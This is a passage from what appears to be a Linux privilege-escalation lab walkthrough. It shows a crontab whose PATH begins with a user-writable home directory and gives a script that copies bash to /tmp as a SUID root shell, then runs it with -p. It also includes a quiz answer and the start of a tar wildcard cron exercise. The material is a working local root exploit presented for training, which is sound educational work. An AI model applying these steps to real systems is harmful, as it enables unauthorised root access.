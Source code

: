     SHELL=/bin/sh
    PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

    # m h dom mon dow user  command
    17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
    25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
    47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
    52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
    #
    * * * * * root overwrite.sh
    * * * * * root /usr/local/bin/compress.sh
    ```
    
    Note that the PATH variable starts with /home/user which is our user's home directory.

- Create a file called overwrite.sh in your home directory with the following contents:

    ```bash
    #!/bin/bash

    cp /bin/bash /tmp/rootbash
    chmod +xs /tmp/rootbash
    ```

- Make sure that the file is executable:

    ```bash
    user@debian:~$ chmod +x /home/user/overwrite.sh
    ```

- Wait for the cron job to run (should not take longer than a minute). Run the `/tmp/rootbash` command with `-p` to gain a shell running with root privileges:

    ```bash
    user@debian:~$ /tmp/rootbash -p
    rootbash-4.1# 
    ```

#### What is the value of the PATH variable in /etc/crontab?
> `/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin`

## Cron Jobs - Wildcards
- View the contents of the other cron job script:

    ```bash
    user@debian:~$ cat /usr/local/bin/compress.sh
    #!/bin/sh
    cd /home/user
    tar czf /tmp/backup.tar.gz *
    ```
